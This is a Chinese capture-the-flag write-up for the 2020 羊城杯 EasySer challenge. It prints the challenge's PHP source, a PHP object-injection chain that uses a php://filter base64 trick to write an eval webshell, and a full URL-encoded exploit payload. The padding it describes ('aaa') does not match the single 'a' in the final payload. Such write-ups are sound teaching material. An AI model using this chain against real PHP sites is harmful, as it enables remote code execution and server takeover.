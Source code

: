# \[羊城杯 2020]EasySer

## \[羊城杯 2020]EasySer

## 考点

* php://filter/write绕过“死亡exit”

## wp

打开链接是Apache2的默认界面，目录扫描存在robots.txt，index.php，flag.php

robots.txt提示访问star1.php

是一个URL访问的功能

![](<../.gitbook/assets/image (8).png>)

提示`用个不安全的协议从我家才能进ser.php`

直接用star1.php访问http://127.0.0.1/ser.php，可以得到源码

{% code title="ser.php" %}
```php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }}}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this->file,$a);
    }}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }}
```
{% endcode %}

典型的php://filter的妙用，绕过“死亡exit”。`$a`为要写入的shell，`$this->file`为`php://filter/write=convert.base64-decode/resource=shell.php`

`<?php die("nononon");?>`可以被base64识别的有13个字符，shell部分需要补3个字符，即`aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+`

```php
class GWHT{
    public $hero;
}
class Yongen{ // flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;   
    }}
// <?php eval($_POST[1]);?>
$a = new Yongen("php://filter/write=convert.base64-decode/resource=shell.php","aaaPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+");
$b = new GWHT();
$b->hero = $a;
echo urlencode(serialize($b));
```

然后找反序列化接收的参数，Arjun爆破出来两个参数是path和c

payload

`http://c98dc05c-c266-4a0d-ba66-660f7468b652.node4.buuoj.cn:81/star1.php?c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A59%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dconvert.base64-decode%2Fresource%3Dshell.php%22%3Bs%3A4%3A%22text%22%3Bs%3A33%3A%22aPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2B%22%3B%7D%7D&path=http://127.0.0.1/star1.php`

访问shell即可

![](<../.gitbook/assets/image (10).png>)

`star1.php`代码如下，可以直接触发`__toString()`

{% code title="star1.php" %}
```php
<?php
    require_once('ser.php');
    error_reporting(0);
    $str = 'url error<br>';
    $filter1= '/^http:\/\/127\.0\.0\.1\//i';
    $filter2 = '/.?f.?l.?a.?g.?/i';
    $url=$_GET['path']; 
    $c=$_GET['c']; 
    if(!preg_match($filter1, $url)){
        die($str);
    }
    if (preg_match($filter2, $url)) {
        die("??");
    }
    $text = @file_get_contents($url, false);
    print($text);

    if(isset($c)){
        echo $x = unserialize($c);
    }
    else{
        echo "your hat is too black!";
    }
?>
```
{% endcode %}
